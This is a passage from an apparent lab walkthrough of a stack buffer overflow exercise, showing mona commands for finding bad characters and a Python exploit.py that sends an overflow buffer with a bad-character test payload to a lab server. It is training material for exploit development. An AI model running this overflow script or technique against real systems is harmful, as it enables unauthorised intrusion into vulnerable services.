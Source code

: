 ![](images/Pasted%20image%2020250529124609.png)

There we go, our address is:

```
0x0018F430
```

Now, we can use mona;

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x0018F430
```

![](images/Pasted%20image%2020250529124830.png)

Mona is telling us `\x01` is mangled in memory, we need to regenerate the bytearray excluding `\x00` and `\x01`:

```
!mona bytearray -b "\x00\x01"
```

On `exploit.py` we need to remove `\x01` too:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 1978
overflow= "A" * offset
retn    = "BBBB"
padding = ""
payload = "\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```

